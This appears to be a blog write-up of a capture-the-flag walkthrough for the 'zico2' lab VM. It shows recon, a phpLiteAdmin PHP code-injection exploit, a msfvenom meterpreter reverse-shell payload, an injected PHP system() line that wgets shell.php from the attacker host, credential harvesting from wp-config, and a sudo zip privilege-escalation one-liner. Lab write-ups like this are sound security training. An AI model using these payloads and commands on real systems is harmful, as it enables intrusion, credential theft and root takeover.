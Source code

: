 ```yaml
---
layout: post
title: zico2
slug: zico2
name: zico2
---
```


# zico2

## Recon:

Start off with netdiscover to find the host:

{% highlight bash %}
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
{% endhighlight %i}

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

{% highlight bash %}
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
{% endhighlight %}

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

{% highlight bash %}
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
{% endhighlight %}

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
{% endhighlight %}

Now to get a shell onto the box by adding a malicious DB column:

{% highlight php %}
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
{% endhighlight %}

Now get meterpreter running:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.171.136
set LPORT 4444
exploit
{% endhighlight %}

Then hit the page in the browser.

After some grepping I found a WordPress install, check the config for user/passwords:

{% highlight bash %}

cat /home/zico/wordpress/wp-config | grep -i 'user' && cat /home/zico/wordpress | grep -i 'pass'

{% endhighlight %}

Try SSHing with the user/pass and succeed, next run LinEnum and linuxprivchecker.py, but none of the exploits reported seem to work, after a lot of head baning, check out the allowed/banned sudo commands this user has:

{% highlight bash %}
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

{% endhighlight %}

Get flag:

{% highlight bash %}

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

{% endhighlight %}
